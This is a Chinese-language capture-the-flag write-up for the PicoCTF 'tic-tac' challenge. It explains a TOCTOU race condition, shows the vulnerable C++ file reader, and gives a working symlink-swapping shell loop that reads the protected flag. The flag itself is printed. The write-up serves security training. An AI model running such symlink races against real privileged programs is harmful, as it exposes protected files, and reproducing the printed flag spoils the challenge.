 ```yaml
---
title: PicoCTF - tic-tac
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - tic-tac
<!-- more -->

## Background
[後端工程師面試考什麼 - Race Condition 篇](https://myapollo.com.tw/blog/interview-question-race-condition/)
[ [Day24]攻擊篇 ](https://ithelp.ithome.com.tw/articles/10208763)
> TOCTTOU
>
>Time of check to time of use
>在檢查和使用之間影響資源狀態的攻擊
>
>這種攻擊可能發生在共享資源中。
>可能導致程式在資源處於意外狀態時執行無效操作。

## Source code
:::spoiler Source code
```cpp=
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
:::

## Recon
第一次寫這一種題目，具@ccccctw所說算是考古題了，看了[^pico_pwn_wp_maple_tic_tac][^pico_pwn_wp_martin_tic_tac][^pico_pwn_wp_aydin_tic_tac]還是不知道怎麼做出來的，所以問了@ccccctw
1. 可以看到source code是檢查root權限才可以讀到flag
2. 用兩次soft link讓這支程式呈現race condiction的狀態(不見得每次都會所以要靠賽)
3. 首先要先用一個infinity while loop創兩個soft link，然後在背景執行，第一次的soft link(`$ ln -sf test1 test`)是為了要過掉root權限的檢查，而第二次的soft link(`ln -sf flag.txt test`)是用來讀flag的
具體來說是這樣：
test的link會在flag.txt和test1之間切換，若我們用txtreader讀取test時，會有權限檢查，如果此時的link是test1，權限檢查就會通過，此時如果剛好test的link指向flag.txt，那我們就可以無縫的讀取到flag.txt的內容
5. 接著就可以用他的txtreader讀取test，如果幸運的話就可以讀到需要root權限的flag

## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 59620
$ touch test1
$ while true; do ln -sf flag.txt test; ln -sf test1 test; done &
[1] 3039
$ for i in {1..1000};do ./txtreader test; done > output
$ cat output
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
```

Flag: `picoCTF{ToctoU_!s_3a5y_007659c9}`

## Reference
[^pico_pwn_wp_maple_tic_tac]:[tic-tac maple](https://blog.maple3142.net/2023/03/29/picoctf-2023-writeups/#tic-tac)
[^pico_pwn_wp_martin_tic_tac]:[picoCTF 2023 tic-tac](https://youtu.be/ONMVfKDqCr0)
[^pico_pwn_wp_aydin_tic_tac]:[ TicTac (TOCTOU attack) - Pico CTF 2023 - Race Condition ](https://youtu.be/b1-Aw96zysM)